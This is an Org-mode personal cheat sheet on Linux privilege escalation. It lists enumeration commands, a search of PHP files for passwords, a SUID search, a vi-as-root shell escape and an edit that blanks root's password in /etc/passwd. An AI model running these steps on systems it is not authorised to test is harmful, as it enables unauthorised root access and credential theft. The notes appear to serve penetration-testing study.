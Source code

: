 :PROPERTIES:
:ID:       4affd395-5beb-4d38-ac31-f65962d627a8
:END:
#+title: Linux Priv Esc
        #+created: [2025-02-27 Thu 08:49]
        #+last_modified: [2025-02-27 Thu 08:49]
* Intel gathering
 - Kernel version
   ~uname -r~
   ~lsb_release -a~
   ~cat /proc/version~
 - Issuers
   ~cat /etc/issue~
 - Sudo
   ~sudo -V~
   ~sudo -l~
 - History
   ~history~
   ~find /* -name .*history* -print 2>/dev/null~
 - Cron Jobs
   ~cat /etc/crontab~
 - check id
   ~id~
 - Network info
   ~ip a~
 - User enumeration
   ~for user in $(cat /etc/passwd) | cut -f1 -d":"; do id $user; done~
   - Specifically root users
   ~cat /etc/passwd | cut -f1,3,4 -d":" | grep "0:0" | cut -f1 -d":" | awk '{print $1}'~
 - Root directory
   ~ls -als /root~
 - Web pages
   ~touch /var/www/file~
 - Software
   ~dpkg -l~
   ~rpm -qi *~ ??
   ~yum list all~
* LinEnum
https://github.com/rebootuser/LinEnum
* SUID
find / -type f -perm -04000 -ls 2>/dev/null
* Plain text
find / -maxdepth 4 -name *.php -type f 2>/dev/null | xargs grep -C 3 -i pass
* Vim
If a user can run /usr/bin/vi as root then:
!sh
* /etc/passwd
change root line:
root::0:0:root:/root:/bin/bash
